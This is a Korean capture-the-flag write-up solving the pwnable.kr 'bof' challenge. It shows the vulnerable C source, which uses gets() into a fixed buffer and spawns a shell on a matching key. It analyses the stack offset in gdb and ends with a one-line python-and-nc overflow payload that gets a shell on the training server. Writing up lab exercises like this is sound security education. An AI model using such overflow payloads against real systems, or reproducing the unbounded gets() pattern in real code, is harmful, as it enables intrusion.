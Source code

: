 ```yaml
---
layout: post
title: "[pwnable.kr] bof 풀이"
date: 2018-06-08 02:44
categories: "[Pwn]pwnable.kr"
tags: UnKN0wnName
---
```

>## bof - [5pt]
### Nana told me that buffer overflow is one of the most common software vulnerability.
### Is that true?<br /><br />
### Download : http://pwnable.kr/bin/bof
### Download : http://pwnable.kr/bin/bof.c
### Running at : nc pwnable.kr 9000
  
  
---
 
문제 이름을 보아하니 이 문제는 Buffer Overflow를 사용하는 문제인 것 같네요. BOF에 대한 개념은 추후에 작성할께여  

일단 두 파일을 다운받아서 분석해 봅시다

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key)
{
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe)
	{
		system("/bin/sh");
	}
	else
	{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[])
{
	func(0xdeadbeef);
	return 0;
}
```
코드 자체에서 힌트를 줘버리네요
  
gets 함수가 받을 문제 수를 제한하지 않고 문자를 받아들여서 overflow가 일어나요  
오버플로우를 이용해 key 값을 0xcafebabe 로 바꿔주면 쉘을 딸 수 있을 것 같아요

이 부분을 디버거로 분석 가즈아~~~~

![bof_gdb_func](/pic/pwnable_kr/bof/bof_gdb_func.png)

func 함수를 어셈블리어로 보면 다음과 같아요  
여기서 문자를 받아서 들어가는 곳을 찾기위해서는 gets 함수의 인자를 봐야겠죠?  

<func+29> 부분에서 [ebp-0x2c] 부분의 주소를 eax에 넣어요  
<func+32> 에서 gets의 인자는 eax가 가지고 있는 주소가 되네요  
우리가 직접 넣는 값은 [ebp-0x2c]의 위치에 저장되는 것을 확인할 수 있어요!

따라서 이 부분을 이용해 [ebp- 0x2c] 0xcafebabe를 넣어주면 CLEAR!!!

# Exploit

![bof_ex_pic](/pic/pwnable_kr/bof/bof_ex_pic.png)

---
>### $ (python -c 'print "\x90"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

![bof_ex_flag](/pic/pwnable_kr/bof/bof_ex_flag.png)

----
